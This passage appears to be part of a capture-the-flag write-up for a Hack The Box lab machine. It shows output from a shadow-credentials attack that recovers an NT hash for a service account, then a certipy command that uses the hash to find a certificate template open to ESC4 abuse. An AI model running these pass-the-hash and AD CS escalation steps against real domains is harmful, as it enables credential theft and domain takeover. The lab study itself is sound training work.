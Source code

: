 ```ruby
        [*] Saved credential cache to 'ca_svc.ccache'
        [*] Trying to retrieve NT hash for 'ca_svc'
        [*] Restoring the old Key Credentials for 'ca_svc'
        [*] Successfully restored the old Key Credentials for 'ca_svc'
        [*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```
####
Now we have a hash and we need to discover a template to exploit a try to gain access.
####
```ruby
certipy find -u 'ca_svc@sequel.htb' -hashes :3b181b914e7a9d5508ea1e20bc2b7fce -stdout -vulnerable
    Result ->
        Certificate Templates
        Template Name                       : DunderMifflinAuthentication
        Display Name                        : Dunder Mifflin Authentication
        Certificate Authorities             : sequel-DC01-CA
        Enabled                             : True
        Client Authentication               : True
        Enrollment Agent                    : False
        Any Purpose                         : False
        Enrollee Supplies Subject           : False
        Certificate Name Flag               : SubjectRequireCommonName
                                            SubjectAltRequireDns
        Enrollment Flag                     : AutoEnrollment
                                            PublishToDs
        Extended Key Usage                  : Client Authentication
                                            Server Authentication
        Requires Manager Approval           : False
        Requires Key Archival               : False
        Authorized Signatures Required      : 0
        Validity Period                     : 1000 years
        Renewal Period                      : 6 weeks
        Minimum RSA Key Length              : 2048
        Permissions
        Enrollment Permissions
            Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
        Object Control Permissions
            Owner                           : SEQUEL.HTB\Enterprise Admins
            Full Control Principals         : SEQUEL.HTB\Cert Publishers
            Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
                                            SEQUEL.HTB\Cert Publishers
            Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
                                            SEQUEL.HTB\Cert Publishers
            Write Property Principals       : SEQUEL.HTB\Domain Admins
                                            SEQUEL.HTB\Enterprise Admins
                                            SEQUEL.HTB\Administrator
                                            SEQUEL.HTB\Cert Publishers
        [!] Vulnerabilities
        ESC4                              : 'SEQUEL.HTB\\Cert Publishers' has dangerous permissions
```
####
<div class="info">
